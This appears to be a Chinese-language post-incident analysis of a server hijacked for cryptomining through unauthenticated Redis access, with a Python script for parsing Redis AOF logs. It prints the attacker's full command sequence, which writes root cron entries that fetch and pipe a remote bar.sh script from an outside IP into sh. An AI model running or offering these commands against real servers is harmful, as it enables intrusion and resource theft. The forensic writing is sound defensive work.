 第一，扫描到该 VPS IP 存在 6379 Redis 端口，尝试无密码登陆。

第二，依次执行如下命令。

``` bash
set key1 "\n*/5 * * * * curl -fsSL http://84.73.251.157:81/bar.sh | sh\n"
set key2 "\n*/5 * * * * wget -q -O- http://84.73.251.157:81/bar.sh | sh\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

第三，Linux 服务器自动加载到 crontab，然后定时任务执行 bar.sh 脚本，服务器被动用于挖矿。

由于 Redis 开启了 AOF，我们利用如下的脚本将 AOF 回溯 [1]，可以确认写入 KEY 的键值对。

``` python
#!/usr/bin/env python

""" A redis appendonly file parser
"""

import logging
import hiredis
import sys

if len(sys.argv) != 2:
   print sys.argv[0], 'aof_file'
   sys.exit()
file = open(sys.argv[1])
line = file.readline()
cur_request = line
while line:
    req_reader = hiredis.Reader()
    req_reader.setmaxbuf(0)
    req_reader.feed(cur_request)
    command = req_reader.gets()
    try:
        if command is not False:
            print command
            cur_request = ''
    except hiredis.ProtocolError:
        print 'protocol error'
    line = file.readline()
    cur_request += line
file.close
```

分析到此为止，我们可以从中得知，未授权漏洞是相当危险的，只要有这个口子，黑客可以做任何事情。

就在最近，一个朋友的服务器也有类似的现象。脚本可以参考：[crack-mining v2](https://github.com/BlockchainOne/crack-mining/tree/master/v2)。脚本大同小异，不过用于挖矿的可执行文件做了手脚。除了 Usage 这里的名字不一样，其他都是一样的。

![dump.db](https://i.imgur.com/oXJizEC.jpg)
